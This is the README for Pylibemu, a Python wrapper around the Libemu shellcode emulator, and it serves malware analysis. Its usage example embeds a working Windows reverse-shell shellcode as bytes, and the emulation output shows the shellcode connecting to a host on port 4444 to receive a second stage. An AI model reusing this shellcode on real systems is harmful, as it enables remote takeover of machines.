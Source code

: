 
## Pylibemu

Pylibemu is a wrapper for the Libemu library (https://github.com/buffer/libemu).


## Requirements

- Python 2.5 or later
- Libemu


## Installation

To install Pylibemu, just execute:

```
sudo pip install pylibemu
```

or alternatively

```
python setup.py build
sudo python setup.py install
```

## Usage


	buffer@alnitak ~ $ python
	Python 2.6.6 (r266:84292, Feb 26 2011, 12:20:05) 
	[GCC 4.4.4] on linux2
	Type "help", "copyright", "credits" or "license" for more information.
	>>> import pylibemu
	>>> shellcode  = b"\xfc\x6a\xeb\x47\xe8\xf9\xff\xff\xff\x60\x31\xdb\x8b\x7d"
	>>> shellcode += b"\x3c\x8b\x7c\x3d\x78\x01\xef\x8b\x57\x20\x01\xea\x8b\x34"
	>>> shellcode += b"\x9a\x01\xee\x31\xc0\x99\xac\xc1\xca\x0d\x01\xc2\x84\xc0"
	>>> shellcode += b"\x75\xf6\x43\x66\x39\xca\x75\xe3\x4b\x8b\x4f\x24\x01\xe9"
	>>> shellcode += b"\x66\x8b\x1c\x59\x8b\x4f\x1c\x01\xe9\x03\x2c\x99\x89\x6c"
	>>> shellcode += b"\x24\x1c\x61\xff\xe0\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c"
	>>> shellcode += b"\x8b\x70\x1c\xad\x8b\x68\x08\x5e\x66\x53\x66\x68\x33\x32"
	>>> shellcode += b"\x68\x77\x73\x32\x5f\x54\x66\xb9\x72\x60\xff\xd6\x95\x53"
	>>> shellcode += b"\x53\x53\x53\x43\x53\x43\x53\x89\xe7\x66\x81\xef\x08\x02"
	>>> shellcode += b"\x57\x53\x66\xb9\xe7\xdf\xff\xd6\x66\xb9\xa8\x6f\xff\xd6"
	>>> shellcode += b"\x97\x68\xc0\xa8\x35\x14\x66\x68\x11\x5c\x66\x53\x89\xe3"
	>>> shellcode += b"\x6a\x10\x53\x57\x66\xb9\x57\x05\xff\xd6\x50\xb4\x0c\x50"
	>>> shellcode += b"\x53\x57\x53\x66\xb9\xc0\x38\xff\xe6"
	>>> emulator = pylibemu.Emulator()
	>>> offset = emulator.shellcode_getpc_test(shellcode)
	>>> offset
	4
	>>> emulator.prepare(shellcode, offset)
	>>> emulator.test()
	0
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
     	LPCTSTR lpFileName = 0x0012fe90 => 
           	= "ws2_32";
	) = 0x71a10000;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
         	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     	int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * buf = 0x0012fe88 => 
        	 none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The new Emulator method 'run' was introduced in Pylibemu 0.1.3  which allows not to 
worry about details. Moreover the new Emulator attribute `offset' allows to get such
information if needed. 
 

	>>> emulator = pylibemu.Emulator()
	>>> emulator.run(shellcode)
	0
	>>> emulator.offset
	4
	>>> print emulator.emu_profile_output
	HMODULE LoadLibraryA (
    	 LPCTSTR = 0x01a3f990 => 
           	= "ws2_32";
	) =  1906376704;
	int WSAStartup (
     	WORD wVersionRequested = 2;
     	LPWSADATA lpWSAData = 1244272;
	) =  0;
	SOCKET WSASocket (
     	int af = 2;
     	int type = 1;
     	int protocol = 0;
     	LPWSAPROTOCOL_INFO lpProtocolInfo = 0;
     	GROUP g = 0;
     	DWORD dwFlags = 0;
	) =  66;
	int connect (
     	SOCKET s = 66;
     	struct sockaddr_in * name = 0x0012fe88 => 
        	struct   = {
            	short sin_family = 2;
             	unsigned short sin_port = 23569 (port=4444);
             	struct in_addr sin_addr = {
                unsigned long s_addr = 339060928 (host=192.168.53.20);
             };
             char sin_zero = "       ";
         };
     int namelen = 16;
	) =  0;
	int recv (
     	SOCKET s = 66;
     	char * = 0x01a40870 => 
         	none;
     	int len = 3072;
     	int flags = 0;
	) =  3072;

	>>> emulator.emu_profile_truncated
	False


The Emulator accepts the optional parameter 'output_size' which defines how much memory 
will be reserved for storing the emulation profile dump. By default, its size is 1MB but 
it be can changed in two possible ways

	>>> emulator = pylibemu.Emulator(1024)

	>>> emulator = pylibemu.Emulator()
	>>> emulator.set_output_size(1024)

If the reserved memory is not enough to contain the entire dump, the dump will be truncated 
and the Emulator attribute 'emu_profile_truncated' will be set to True. This approach is 
needed in order not to penalize performances while analyzing some shellcodes which may produce 
several MBs dumps (such as the Metasploit windows/download_exec). If the entire dump is needed 
a really simple approach could be to check the `emu_profile_truncated' attribute after the 
shellcode emulation test, increase the reserved memory through the Emulator 'set_output_size' 
method and subsequently run the shellcode emulation test again as shown above.


## License information

Copyright (C) 2011-2015 Angelo Dell'Aera <buffer@antifork.org>

License: GNU General Public License, version 2 or later; see LICENSE.txt
         included in this archive for details.
